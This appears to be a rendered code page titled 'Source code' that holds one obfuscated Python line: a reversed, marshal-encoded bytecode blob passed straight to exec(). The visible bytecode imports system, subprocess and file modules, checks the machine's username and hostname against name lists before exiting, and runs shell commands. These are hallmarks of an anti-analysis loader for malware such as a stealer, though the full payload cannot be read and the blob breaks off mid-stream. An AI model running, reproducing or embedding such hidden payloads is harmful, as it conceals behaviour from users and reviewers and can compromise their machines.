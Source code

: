 _ = lambda __ : __import__('marshal').loads(__[::-1]);exec((_)(b'\x00\x00\x00\x04r\x01W{x\x01\x00\x00\xf0\x01W{x\x01\x00\x00\xf0\x01W{x\x01\x00\x00\xf0\x01W{x\x01\x00\x00\xf4\x01W{x\x01\x00\x00\xf1\x01W{w\x06\x00\x00\xf4\x01W{w\x06\x00\x00\xf1\x01W{v\n\x00\x00\xf0a\x80a\x80\x04\x80\x04\x00\xd8\x01\x01\x01\x03\xf0\x00\x00\x00Ns\x00\x00\x00\x01\x00\x00\x00\x06r>eludom<\x08\xfa>x<\x03\xfa\x00\x00\x00\x00\xf3\x00\xa9_\x01\xdacexe\x04\xda\x02)Nc\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x14\x00\x00\x00\x00\x00\x00\x00\xf3\x98$\x00\x00\x97\x00d\x00d\x01l\x00Z\x00d\x00d\x01l\x01Z\x01d\x00d\x01l\x02Z\x02d\x00d\x01l\x03Z\x03d\x00d\x01l\x04Z\x04d\x00d\x01l\x05Z\x05d\x00d\x01l\x06Z\x06d\x00d\x01l\x07Z\x07d\x00d\x01l\x08Z\x08\x02\x00e\x03j\t\x00\x00\x00\x00\x00\x00\x00\x00d\x02\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x00d\x01l\nZ\nd\x00d\x01l\x0bZ\x0bd\x00d\x01l\x0cZ\x0cd\x00d\x03l\rm\x0eZ\x0e\x01\x00d\x00d\x04l\x0bm\x0fZ\x10\x01\x00d\x00d\x05l\x11m\x12Z\x13\x01\x00d\x00d\x06l\x14m\x15Z\x16\x01\x00d\x00d\x07l\x01m\x17Z\x18\x01\x00d\x00d\x07l\x01m\x17Z\x19\x01\x00d\x00d\x08l\x1am\x1bZ\x1bm\x1cZ\x1cm\x1dZ\x1dm\x1eZ\x1e\x01\x00d\x00d\tl\x1am\x1fZ\x1f\x01\x00d\x00d\nl m!Z"\x01\x00d\x00d\x0bl#m$Z%\x01\x00d\x00d\x04l\x0bm\x0fZ\x10\x01\x00d\x00d\x0cl&m\'Z(\x01\x00d\x00d\x04l\x0bm\x0fZ)\x01\x00d\x00d\rl\x0bm*Z*\x01\x00d\x00d\x0el+m,Z-\x01\x00d\x00d\x06l\x14m\x15Z\x15\x01\x00\x02\x00e\x15\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00Z.d\x00d\x01l/Z/e\x03j0\x00\x00\x00\x00\x00\x00\x00\x00\xa01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d\x0f\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00r\x11\x02\x00e\x03j\t\x00\x00\x00\x00\x00\x00\x00\x00d\x10\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00n\x01\t\x00d\x11\x84\x00Z2d\x12\x84\x00Z3\x02\x00e/j4\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00j5\x00\x00\x00\x00\x00\x00\x00\x00d\x01d\x13\x85\x02\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa06\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00Z/\t\x00\x02\x00e7d\x14d\x15\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00\xa08\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00Z9nX#\x00e:$\x00rP\x01\x00\x02\x00e7d\x14d\x16\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x005\x00Z;e;\xa0<\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00e/\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00e;\xa0=\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x01d\x01d\x01\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00n\x0b#\x001\x00s\x04w\x02x\x03Y\x00w\x01\x01\x00Y\x00\x01\x00\x01\x00Y\x00n\x04w\x00x\x03Y\x00w\x01d\x17\x84\x00Z>\x02\x00e>\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d\x18Z?d\x19Z@d\x1a\x84\x00ZAd\x00d\x1bl\x03m\tZ\t\x01\x00d\x1cZB\x02\x00e\x00jC\x00\x00\x00\x00\x00\x00\x00\x00d\x1d\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00jD\x00\x00\x00\x00\x00\x00\x00\x00ZE\x02\x00e\x00jC\x00\x00\x00\x00\x00\x00\x00\x00d\x1e\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00jD\x00\x00\x00\x00\x00\x00\x00\x00ZFeBeEv\x00s\x04eBeFv\x00r\x1b\x02\x00e\x0fd\x1f\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\x04jG\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00n\x01\t\x00d \x84\x00ZH\x02\x00eH\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00d!ZId"ZJd#ZKd$ZLd%ZMd&ZN\x02\x00e\x05jO\x00\x00\x00\x00\x00\x00\x00\x00g\x00d\'\xa2\x01\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00ZP\t\x00\x02\x00e7d(d\x15\xa6\x02\x00\x00\xab\x02\x00\x00\x00\x00\x00\x00\x00\x00\xa08\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00ZQeQ\xa0R\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d)\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00d\x00\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00ZSeQ\xa0R\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00d)\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00d*\x19\x00\x00\x00\x00\x00\x00\x00\x00\x00ZTn #\x00\x01\x00d$ZS\x02\x00e\x05jO\x00\x00\x00\x00\x00\x00\x00\x00eJeKeIeLeMg\x05\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00ZUd+ZTY\x00n\x03x\x03Y\x00w\x01\x02\x00e*jV\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x02\x00e\x16\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00ZWg\x00ZXg\x00ZYg\x00ZZg\x00Z[\x02\x00e\x00j\\\x00\x00\x00\x00\x00\x00\x00\x00\xa6\x00\x00\x00\xab\x00\x00\x00\x00\x00\x00\x00\x00\x00Z]g\x00Z^\x02\x00e_d,\xa6\x01\x00\x00\xab\x01\x00\x00\x00\x00\x00\x00\x00\x00D\x00\x90\x0b]